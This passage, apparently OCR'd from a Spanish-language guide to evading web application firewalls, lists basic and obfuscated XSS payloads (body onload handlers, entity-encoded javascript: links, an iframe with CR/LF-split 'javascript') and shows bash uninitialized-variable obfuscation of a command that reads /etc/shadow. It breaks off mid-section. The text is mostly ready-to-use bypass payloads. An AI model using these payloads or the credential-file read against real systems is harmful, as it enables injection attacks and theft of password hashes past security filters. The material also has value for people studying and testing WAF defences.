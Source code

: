 **Solicitud básica:**

```bash
<BODY onload=confirm()>
```

**Ofuscar carga útil:**

```bash
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()>
```

**Solicitud básica:**

```bash
<a href=javascript;alert()>ClickMe
```

**Técnica omitida:**

```bash
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
```

### 11. Técnica de saltos de línea

Muchos WAF con filtrado basado en expresiones regulares bloquean eficazmente muchos intentos. La técnica de saltos de línea (CR y LF) puede romper la expresión regular del firewall y omitir cosas.

**Solicitud básica:**

```bash
<iframe src=javascript:confirm(hacker)">
```

**Ofuscar carga útil:**

```bash
<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(hacker)">
```

### 12. Técnica de variables no inicializadas

Los filtros basados ​​en expresiones regulares incorrectos se pueden evadir con variables bash no inicializadas. Dicho valor es igual a nulo y actúa como cadenas vacías. Bash y Perl permiten este tipo de interpretaciones.

Ofuscación de primer nivel: normal

**Solicitud básica:**

> /bin/cat /etc/shadow

**Ofuscar carga útil:**

> /bin/cat$u /etc/shadow$u

Ofuscación de segundo nivel: basada en la posición

**Solicitud básica:**
